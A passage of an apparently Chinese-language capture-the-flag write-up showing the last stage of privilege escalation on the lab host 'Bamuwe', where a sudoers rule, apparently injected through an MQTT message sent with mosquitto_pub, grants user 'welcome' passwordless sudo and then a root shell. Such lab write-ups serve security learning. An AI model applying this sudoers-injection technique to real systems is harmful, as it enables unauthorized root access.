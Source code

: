    这条命令使用 `mosquitto_pub` 将我们精心构造的 `sudoers` 规则作为单行消息 (`-l` 选项) 发布到 "exp" 主题。


### 4.4. 获取 Root 权限 (Gaining Root Access)

现在，恶意的 `sudoers` 规则应该已经被写入 `/etc/sudoers` 文件。我们可以验证 `welcome` 用户的新权限。

1. **验证新权限:**
   回到**第二个**终端，执行 `sudo -l`：

   ```bash
   welcome@Bamuwe:~$ sudo -l
   Matching Defaults entries for welcome on Bamuwe:
       env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
   
   User welcome may run the following commands on Bamuwe:
       (ALL) NOPASSWD: ALL   # <--- 成功！权限已提升
   ```

   输出确认 `welcome` 用户现在可以无密码执行所有命令。

2. **获取 Root Shell:**
   最后一步，切换到 root 用户：

   ```bash
   welcome@Bamuwe:~$ sudo su -
   root@Bamuwe:~# id
   uid=0(root) gid=0(root) groups=0(root)
   root@Bamuwe:~# whoami
   root
   ```

成功获取了目标系统的 root 权限。